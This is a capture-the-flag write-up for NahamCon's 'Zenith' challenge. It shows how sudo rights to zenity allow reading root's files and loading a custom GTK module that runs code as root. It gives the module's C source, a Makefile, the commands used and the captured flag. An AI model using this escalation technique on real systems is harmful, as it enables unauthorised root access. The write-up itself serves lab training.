


# Zenith
**Catagory:** Misc  
**Difficulty:** Medium
> Escalate your privileges and retrieve the flag out of root's home directory.  
> (There is intentionally no `/root/flag.txt` file present.) 

## Challenge Setup
When starting the challenge container, we're giving the following credentials:
```
# Password is userpass
ssh -p 30403 user@challenge.nahamcon.com
```

## Recon
We can log in as `user` with password `userpass`. After logging in we can start with a quick `sudo -l` to figure out if our user can run any commands with `sudo`:  
```
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zenith-ea51451dd14b1eab-5f945d548f-9n6xz:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on
        zenith-ea51451dd14b1eab-5f945d548f-9n6xz:
    (root) /usr/bin/zenity
```

## Zenity
It seems like the only thing we have to work with is [zenity](https://en.wikipedia.org/wiki/Zenity), so let's have a look at its features:  
```
$ zenity

(process:19): Gtk-WARNING **: 21:23:57.400: Locale not supported by C library.
	Using the fallback 'C' locale.
Unable to init server: Could not connect: Connection refused

(zenity:19): Gtk-WARNING **: 21:23:57.401: cannot open display:
```

If you looked into zenity, the error should make sense. Zenity is a UI toolkit, so it needs some kind of X display to display UI elements onto.  

Since we only have an SSH connection, `X11Forwarding` better be enabled. Let's have a peek at the `sshd` config:

```
cat /etc/ssh/sshd_config 

 --- < snip > ---

#GatewayPorts no
X11Forwarding yes    < ---- Nice :D
#X11DisplayOffset 10

 --- < snip > ---
```

Let's reconnect to ssh with the `-X` option, which will allow X11 elements to be forwarded to our local display:

```
ssh -X -p 30403 user@challenge.nahamcon.com
```

_Now_ we can take a look at zenity's features:
```
$ zenity --help

 --- < snip > ---

  --info                             Display info dialog
  --file-selection                   Display file selection dialog

 --- < snip > ---
 ```

These two sound interesting. We can use the file selection to browse the file system, and `--info` can be used to print files.

## Finding the flag
If we run the file selection command and navigate to `/root`, we find a file called `get_flag`. Notice the rather large size, which indicates that it's probably not a simple text file.

```
sudo zenity --file-selection
```


So... can we just read the this file directly? Let's give it a try.
```
sudo zenity --text-info --filename="/root/get_flag"
```

  

Turns out `get_flag` is a binary and zenity won't print it. We'll have to find a way to get code execution on the box and execute `get_flag`.

## Preparing the exploit

There is another interesting feature of zenity we haven't talked about yet. It is hidden in the GTK options:
```
$ zenity --help-gtk
GTK+ Options
 --- < snip > ---

  --gtk-module=MODULES               Load additional GTK+ modules

 --- < snip > ---
```

If we provide a custom `GTK+` module, zenith will run it for us. This can be used to add new fancy UI elements, or in our case, run arbitrary C code. The documentation on GTK+ modules is a bit sparse, but here is the module I ended up with.

### Code
```c
#include <unistd.h>
#include <gtk/gtk.h>

// This code is executed when our module is loaded, meaning it
// will run with sudo
void gtk_module_init(gint *argc, gchar ***argv[]) {
    // After some debugging, I found out get_flag is not executable, 
    // so let's mark it as executable first.
    char *args[] = {"/bin/sh", "-c", "chmod +x /root/get_flag; /root/get_flag", NULL};
    execve(args[0], args, NULL);
}
```

### Makefile
```makefile
all:	module.c
	gcc -c -Wall -Werror -fpic module.c `pkg-config --cflags --libs gtk+-3.0`
	gcc -shared -o libhack.so module.o `pkg-config --cflags --libs gtk+-3.0`
```

To compile the module, you'll need the gtk-dev package:
```
sudo apt-get install libgtk-3-dev
```

After compiling the module with `make`, you should be left with a `libhack.so` file. Find a way to transfer this file to the target, either via ssh or wget.  

## Flag time

All that's left to do is to run zenity with our custom module:

```
$ sudo zenity --gtk-module="/home/user/libhack.so"
flag{d1fbeab9101e0ee7fc1342e4c96b4603}
```


## Alternative solution

Apparently the `root` user was allowed to log in via `ssh` as well. By reading `root`'s public key with `--text-info` we could have logged in as root without needing to resort to custom GTK modules, but hey, where's the fun in that?
